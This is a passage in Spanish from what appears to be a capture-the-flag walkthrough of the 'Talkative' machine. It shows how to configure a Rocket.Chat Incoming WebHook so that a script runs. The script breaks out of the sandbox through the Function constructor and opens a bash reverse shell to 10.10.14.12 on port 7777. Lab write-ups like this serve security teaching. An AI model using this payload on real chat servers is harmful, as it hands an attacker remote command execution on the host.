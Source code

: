 Ahora en Incoming WebHook:


![1](/assets/img/sample/Talkative/35.png)

Lo más importante para modificar, es el parámetro "Post to channel" y "Post as" al igual que "Script Enabled" en True para que se ejecute nuestra shell reversa que sacamos del POC.

```terminal
const require = console.log.constructor('return process.mainModule.require')();
require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.10.14.12/7777 0>&1"');
```

![1](/assets/img/sample/Talkative/36.png)

Ahora guardamos los cambios, recargamos la página y buscamos la URL donde se encuentra el WebHook almacenado:

![1](/assets/img/sample/Talkative/37.png) 
